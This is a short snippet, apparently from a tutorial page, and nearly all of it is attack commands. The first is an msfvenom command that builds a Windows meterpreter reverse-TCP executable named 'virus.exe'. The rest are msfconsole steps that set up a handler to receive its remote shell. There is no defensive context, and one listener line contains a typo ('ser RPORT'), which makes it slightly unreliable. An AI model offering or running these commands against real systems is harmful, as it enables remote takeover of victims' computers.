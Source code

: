 Crafting Windows executable through MSFVenom:

```
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=YOUR-IP-ADDRESS LPORT=ANY-FREE-PORT -o /root/Desktop/virus.exe
```

---

Setting up reverse listener using msfconsole:

```
msfconsole -q

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set LHOST YOUR-IP-ADDRESS

ser RPORT ANY-FREE-PORT

exploit
```